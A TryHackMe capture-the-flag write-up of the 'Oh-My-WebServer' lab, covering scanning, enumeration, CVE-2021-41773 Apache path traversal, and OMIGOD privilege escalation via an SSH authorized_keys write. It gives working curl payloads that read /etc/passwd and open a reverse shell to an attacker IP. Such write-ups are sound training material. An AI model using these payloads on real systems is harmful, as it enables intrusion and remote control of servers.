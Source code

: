 ```yaml
---
title: Oh-My-WebServer TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/2.png)

## Enumeration
We access the website and find this page of an active web server:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/3.png)

We launch **dirsearch** to search for existing directories or files that may be relevant for other attacks.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/4.png)


## Exploitation
Exploited vulnerability CVE-2021-41773

#### PoC
```bash 
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/5.png)

### Reverse shell
```bash
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.8.246.129/443 0>&1' -H "Content-Type: text/plain"
```
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/6.png)

### Attack Machine
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/7.png)

It looks like we are on a docker machine and we will need to exit the docker and connect to the host machine.

## Privilege Escalation
There is a script in "*/tmp*"
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/8.png)


### Exploit: [https://github.com/midoxnet/CVE-2021-38647](https://github.com/midoxnet/CVE-2021-38647)

#### PoC
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/9.png)

We list the root directory, we could "cheat" and read the flag directly, but the idea is to exploit the vulnerability and get privilege escalation as root.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/10.png)

We see that the "*id_rsa*" file does not exist, but the "*authorized_keys*" file does exist, remember that the machine has the **SSH** service open, so we will take advantage of the vulnerability to transfer our public key to the file and enter by **SSH** with the "*root*" user.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/11.png)

We put our public key in the file "*authorized_keys*" exploiting the vulnerability "**OMIGOD**".
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/12.png)

We connect via **SSH** with our private key and read the root flag.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/13.png)

I almost forgot! We still need to identify the user flag, let's do a **find** in the root directory and we will get it easily.
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Oh-My-WebServer/14.png)



